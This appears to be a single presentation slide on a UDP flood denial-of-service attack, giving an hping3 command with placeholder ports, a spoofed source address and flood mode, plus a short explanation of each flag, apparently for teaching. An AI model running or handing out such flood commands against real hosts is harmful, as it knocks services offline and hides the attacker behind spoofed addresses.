

# DDoS Attack : UDP flood example

hping3 –udp -s [src_port] -p [dst_port] -a [fake_src_ip] --flood [dst_ip]
-p  destination port
 -s source port
--flood    sent packets as fast as possible
-a  spoof source address